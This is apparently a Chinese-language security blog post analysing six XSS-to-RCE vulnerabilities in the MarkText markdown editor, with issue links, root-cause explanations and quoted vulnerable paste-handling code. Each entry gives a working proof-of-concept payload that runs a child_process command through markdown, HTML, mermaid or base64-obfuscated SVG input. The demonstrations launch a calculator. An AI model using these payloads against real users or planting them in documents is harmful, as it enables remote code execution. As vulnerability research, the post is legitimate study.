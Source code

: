 ```yaml
---
title: Markdown editor CVE of Marktext
date: 2023-09-13 09:50:00
updated: 2023-09-13 18:13:00
tags: [security]
category: security
---
```


#### 无CVE编号 XSS2RCE
> https://github.com/marktext/marktext/issues/2601
> https://github.com/marktext/marktext/commit/0dd09cc6842d260528c98151c394c5f63d733b62

影响 <= 0.16.3 的marktext版本，点击链接触发。

POC：
```
<a href="javascript:require('child_process').exec('open -a Calculator')" >evil1</a>

[evil2](javascript:require('child_process').exec('open -a Calculator'))
```
是a标签的`href`调用`javascript`伪协议触发XSS导致RCE。
![image.png](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/20230913162316.png)

#### CVE-2021-29996 XSS2RCE
> https://github.com/marktext/marktext/issues/2548

影响 <= 0.16.3 的marktext版本，打开文件触发。

POC：
```
```<style/onload=require('child_process').exec('calc')>

```

漏洞发现者是在Win环境复现的，在MacOS上复现不出来，但Win上可以。注意，这个多出来的换行是必须的，否则无法复现。

漏洞原理是在markdown语法中，在三个反引号后的内容为代码块的语言。而这里作为语言输出的内容可以被当作HTML标签渲染，能完成打开md文件就RCE。

![image.png](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/20230913164816.png)

#### CVE-2022-24123 XSS2RCE
> https://github.com/marktext/marktext/issues/2946
> 这个洞是Vidar-Team的学长@e99p1ant挖到的洞，他的博客也有对应的分析
> https://github.red/security-bounty-thought/

影响 <= 0.16.3 的marktext版本，打开文件触发。

POC：
```mermaid
sequenceDiagram
 B ->> S: <img src=1 onerror="require('child_process').exec('open /System/Applications/Calculator.app')">
 hello -> B: 
```

Mermaid图标功能会将输入当作HTML解析导致的。

![image.png](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/20230913165551.png)

#### CVE-2022-25069
> https://github.com/marktext/marktext/issues/2990

影响 <= 0.16.3 的marktext版本，粘贴触发。

POC:
```
<table><tr><img src onerror="require('child_process').exec('calc.exe')"></tr></table>
```

漏洞原因是`table`标签内没有对HTML进行转义，从而导致能插入`img`标签并且渲染
![image.png](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/20230913170743.png)


#### CVE-2023-1004 RCE
> https://github.com/marktext/marktext/issues/3575

影响 <= 0.17.1 的marktext版本，只存在于Windows，点击链接触发。

POC：
poc.html

```html
<!-- auto download !-->
<html>
<script>
    var blob = new Blob(['var WshShell = new ActiveXObject("WScript.Shell");var ret = WshShell.run("calc");if (ret == 0)WScript.Echo("You were hacked.");WScript.Quit();'],{type:'application/js'});
    var a = document.createElement('a');
    a.href = window.URL.createObjectURL(blob);
    a.download =  'poc.js';
    a.click();
</script>
</html>

<!-- click to download !-->
<a href="http://127.0.0.1:8000/poc.js" download="poc.js">CLICK~~</a>
```

poc.js

```js
var WshShell = new ActiveXObject("WScript.Shell");
var ret = WshShell.run("calc");
if (ret == 0)
    WScript.Echo("You were hacked.")
WScript.Quit();
```

漏洞是因为Marktext支持加载 `.js`后缀的文件，在Windows上会被识别为WSH（Windows Script Host）。要求就是本地要有恶意的`js`文件，可以考虑通过点击下载的方式也可以直接放在打包好的文件夹中，触发条件比较复杂。

![image.png](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/20230913152827.png)



#### CVE-2023-2318 XSS2RCE
> **[CVE-2023-2318](https://github.com/advisories/GHSA-jv63-mj7w-v6v9 "CVE-2023-2318")**

影响 <= 0.17.1 的marktext版本，粘贴触发。

POC: 
```
p = btoa(`require("child_process").exec("open -a Calculator")`);
btoa(encodeURIComponent(`[‪](<a href="http://1:1/#&#x3c;svg&#x3e;&#x3c;svg&#x20;onload=eval(atob('${p}'))&#x3e;">http://1:1/#&#x3c;svg&#x3e;&#x3c;svg&#x20;onload=eval(atob('${p}'))&#x3e;</a>)`))
```

```
[‪](<a href="http://1:1/#&#x3c;svg&#x3e;&#x3c;svg&#x20;onload=eval(atob('cmVxdWlyZSgiY2hpbGRfcHJvY2VzcyIpLmV4ZWMoIm9wZW4gLWEgQ2FsY3VsYXRvciIp'))&#x3e;">http://1:1/#&#x3c;svg&#x3e;&#x3c;svg&#x20;onload=eval(atob('cmVxdWlyZSgiY2hpbGRfcHJvY2VzcyIpLmV4ZWMoIm9wZW4gLWEgQ2FsY3VsYXRvciIp'))&#x3e;</a>)
```

将POC粘贴到编辑器

![image.png](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/20230913104923.png)

主要思路是MarkText会在用户粘贴时，检查剪贴板数据，尝试将HTML标签转换成Markdown，然后再生成HTML来进行Markdown的预览。

src/muya/lib/contentState/pasteCtrl.js

```
const links = Array.from(tempWrapper.querySelectorAll('a'))
for (const link of links) {
  const href = link.getAttribute('href')
  const text = link.textContent   // [1]
  if (URL_REG.test(href) && href === text) {
    const title = await getPageTitle(href)
    if (title) {
      link.innerHTML = sanitize(title, PREVIEW_DOMPURIFY_CONFIG, true)
    } else {
      const span = document.createElement('span')   // [2]
      span.innerHTML = text   // [3]
      link.replaceWith(span)
    }
  }
}
```

这段代码会遍历所有a标签，如果href和textContent相同，那么就会执行`getPageTitle`。

```
export const getPageTitle = url => {
  // No need to request the title when it's not url.
  if (!url.startsWith('http')) {
    return ''
  }
  // No need to request the title when off line.
  if (!isOnline()) {
    return ''
  }

  const req = new XMLHttpRequest()
  let settle
  const promise = new Promise((resolve, reject) => {
    settle = resolve
  })
  const handler = () => {
    if (req.readyState === XMLHttpRequest.DONE) {
      if (req.status === 200) {
        const contentType = req.getResponseHeader('Content-Type')
        if (/text\/html/.test(contentType)) {
          const { response } = req
          if (typeof response === 'string') {
            const match = response.match(/<title>(.*)<\/title>/)
            return match && match[1] ? settle(match[1]) : settle('')
          }
          return settle('')
        }
        return settle('')
      } else {
        return settle('')
      }
    }
  }
  const handleError = (e) => {
    settle('')
  }
  req.open('GET', url)
  req.onreadystatechange = handler
  req.onerror = handleError
  req.send()

  // Resolve empty string when `TIMEOUT` passed.
  const timer = new Promise((resolve, reject) => {
    setTimeout(() => {
      resolve('')
    }, TIMEOUT)
  })

  return Promise.race([promise, timer])
}
```

而getPageTitle的作用的请求页面并且获取页面标题，因此POC中构造了一个href和textContent值相同的标签。

当找不到标题时，根据代码`const span = documnet.createElement('span')`，会创建`span`元素，并且将`a`标签的`textContent`分配给`span.innerHTML`，所以就可以控制`textContent`为`http://1:1/#<svg><svg onload=eval(atob('cmVxdWlyZSgiY2hpbGRfcHJvY2VzcyIpLmV4ZWMoIm9wZW4gLWEgQ2FsY3VsYXRvciIp'))>`，使代码进入找不到标题，进而控制`span.innerHTML`，完成XSS。